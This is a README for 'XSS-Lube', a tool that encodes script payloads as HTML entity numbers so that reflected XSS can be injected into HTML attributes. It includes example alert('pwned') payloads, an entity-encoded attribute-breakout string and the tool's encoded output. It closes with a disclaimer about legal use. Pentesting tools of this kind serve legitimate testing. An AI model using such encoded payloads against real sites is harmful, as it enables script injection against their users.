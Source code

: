 # XSS-Lube

A tool to assist penetrating pages with XSS code that needs to find its way into HTML attributes.

At times it can be quite challenging to inject XSS code when the code's contents will be interpreted as HTML. This is particularly true in server-side reflected XSS that involves exploitation of an HTML attributes which can require some fairly tedious string manipulation. In cases where HTML you're in an HTML element and manipulating an attribute, you'll not want certain reserved characters to be interpreted as HTML characters. 

## Conditions of Success
To date, this has been tested against PHP servers where form data is reflected on POST. Additional uses are yet to be tested.

### Example Problem
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value="<script>alert("pwned");</script>" />
    <input type="submit" value="Submit">
</form>
```
The above will break due to the use of several reserved characters. But, below will work to a limited degree, but only if you're directly manipulating the page. Otherwise, the injected script will not be received as input to the server and reflected back as `value=""/>` will be render before the script is reached and you'll only post an empty string.
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=""/><script>alert("pwned");</script>"/>
    <input type="submit" value="Submit">
</form>
```

One can manually fiddle with these inputs by mapping out characters to their HTML Number Entities. For example: 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=&#34;&#47;&#62;&#13;&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#60;&#13;/>
    <input type="submit" value="Submit">
</form>
```
But that's quite tedious for longer programs. Ideally, you'll get your exploit working with minimal struggle with string manipulation so you can save your time working out bigger problems.

## XSS-Lube to the Rescue
This tool will take a cleverly crafted text document and convert it's contents into [HTML Entity](https://developer.mozilla.org/en-US/docs/Glossary/Entity) Numbers, thereby circumventing some cases in which otherwise valid exploits are hampered by how a character is handled by the server or HTML renderer.

**Dependencies**: NodeJS - consider installing the [Node Version Manager (NVM)](https://github.com/nvm-sh/nvm) to resolve this dependency.

## Example Usage

Example (test.html):

```html
<script>
  alert("pwned!");
</script>
```

Run the following code:
```sh
npm run start test.html
```
Or, with Yarn:
```sh
yarn start test.html
```

And then observe the output:

```text
ub3rl33t@kali:~$ yarn start test.html

===============================================================
██╗  ██╗███████╗███████╗      ██╗     ██╗   ██╗██████╗ ███████╗
╚██╗██╔╝██╔════╝██╔════╝      ██║     ██║   ██║██╔══██╗██╔════╝
 ╚███╔╝ ███████╗███████╗█████╗██║     ██║   ██║██████╔╝█████╗
 ██╔██╗ ╚════██║╚════██║╚════╝██║     ██║   ██║██╔══██╗██╔══╝
██╔╝ ██╗███████║███████║      ███████╗╚██████╔╝██████╔╝███████╗
╚═╝  ╚═╝╚══════╝╚══════╝      ╚══════╝ ╚═════╝ ╚═════╝ ╚══════╝
===============================================================
TEST.HTML - Text to HTML Entity Number for XSS:
---------------------------(start)-----------------------------
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;
---------------------------(end)-----------------------------
```

The string of HTML Entity Numbers can be used in place of cumbersome characters in your exploit.

## Caution
As always, there is a lot of nuance in exploiting vulnerable web applications. And you have to gain and understanding of the environment. This tool will not work well in all cases. And, encoded text put into an input field will behave differently than text embedded into a page, etc. So, please temper your expectations. ^_^

## Obligatory Warning
Hacking is illegal, this tool is not intended for illegal activity and the author cannot be held responsible for such use. Please use responsibly either in your own home lab or for legitimate work where you've required established satisfactory legal, business, and moral grounds to perform any penetration testing. 
